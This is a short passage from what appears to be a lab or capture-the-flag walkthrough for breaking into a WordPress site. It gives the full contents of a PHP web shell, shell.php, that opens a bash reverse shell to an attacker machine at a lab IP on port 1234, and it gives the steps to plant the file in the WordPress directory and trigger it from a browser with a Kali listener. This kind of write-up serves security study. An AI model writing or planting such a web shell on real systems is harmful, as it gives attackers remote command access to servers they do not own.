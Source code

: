 ![wordpress_directory](images/wordpress_directory.PNG)

- creating a `shell.php` file that contains our reverse shell and save it in the `/wordpress` directory.

File: `shell.php`
```bash
<?php
exec("bash -i >& /dev/tcp/192.168.37.128/1234 0>&1");
?>
```

- setup the listener on kali with port `1234` and open the file in the browser (file can be found at `http://security-lab/blog/shell.php`)

![shell_location](images/shell_location.PNG)

__Result__
